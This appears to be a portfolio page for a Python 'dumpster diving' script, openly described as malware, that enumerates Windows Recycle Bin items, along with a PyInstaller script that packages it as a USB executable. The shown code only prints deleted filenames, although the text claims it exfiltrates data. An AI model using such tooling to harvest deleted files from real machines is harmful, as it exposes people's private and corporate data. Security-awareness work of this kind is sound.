 ```yaml
---
layout: default
---
```


## Digital Dumpster Diving Executable Malware | Python, Penetration testing

This `Python` script for offensive security conducts `digital dumpster diving` by exfiltrating all data from a `Windows Recycle Bin`, even if Python isn't installed on the compromised device.

The idea behind this type of malware is that important information like `PII` or `intellectual property` may not always be properly deleted, as users often neglect to empty their Recycle Bin. This creates an opportunity for attackers, especially if a careless employee has unwittingly left sensitive information behind. While `initial access` is required, possibly through `social engineering` or plugging a `USB` into the device, and the code could be further optimized, that isn't the primary objective here. Instead, the script highlights a fundamental vulnerability and tests whether employees routinely clean out their Recycle Bin.

This script could serve as a helpful tool in `social engineering awareness campaigns`, encouraging better information disposal practices among a company's employees. After all, we know the saying:

"One man's trash is another man's treasure."

### Dumpster Dive code:

```python
import winshell
import os

def dumpster_diving():
    dumpster = winshell.recycle_bin()
    for item in dumpster:
        og_path=item.original_filename()
        trash_item=os.path.basename(og_path)
        print(trash_item)

if __name__ == "__main__":
    dumpster_diving()
```

### Code to make the Executable

This is the code used to create the executable using `PytInstaller`. The extra lines of code are meant to create the executable in a usb drive, but they can be commented without issue:

```python
import PyInstaller.__main__ 
import os
import shutil

filename = "dumpsterdive.py"
exename = "dumpsterdive"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

dist_path = os.path.join(pwd, "dist")
build_path = os.path.join(pwd, "build")
spec_path = os.path.join(pwd, exename + ".spec")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "dumpsterdive.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
])

# Clean up after Pyinstaller
shutil.move(os.path.join(dist_path,exename+'.exe'),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
if os.path.isfile(spec_path):
    os.remove(spec_path)
```

[back](./)
